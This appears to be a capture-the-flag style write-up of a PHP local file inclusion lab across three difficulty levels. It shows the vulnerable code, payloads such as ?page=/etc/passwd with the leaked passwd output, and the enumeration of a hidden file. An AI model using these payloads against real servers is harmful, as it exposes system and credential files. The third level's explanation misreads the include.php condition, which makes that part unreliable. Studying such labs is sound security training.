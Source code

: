 # Vulnerable Code 1
This code gets "page" parameter via GET request and show to the user.

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];
?>
```


## Abuse

The problem here there is no input sanitization which we can include any file and read content of it.

## Payload

```php
?page=/etc/passwd
```


## Result


```php
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin 
	sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin 
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sb....
```

# Vulnerable Code 2

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```

## Abuse

The problem here, there is input sanitizing but it prevent us to include relative files, still we can include absolute path inside of machine

## Payload

```php
?page=/etc/passwd
```

## Result

```php
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin 
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail....
```

# Vulnerable Code 3

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

## Abuse

Problem here, code gets a file and there is 2 condition:

- File should start with "file"
- File shouldn't be "include.php"

Application expect us to read content of "file1" "file2" "file3". If we enumerate numbers near the files we can read secret file that doesn't shown the user

## Payload

```php
?page=file4.php
```

## Result

```php
Good job!
This file isn't listed at all. If you are reading this, you did something right ;-)
```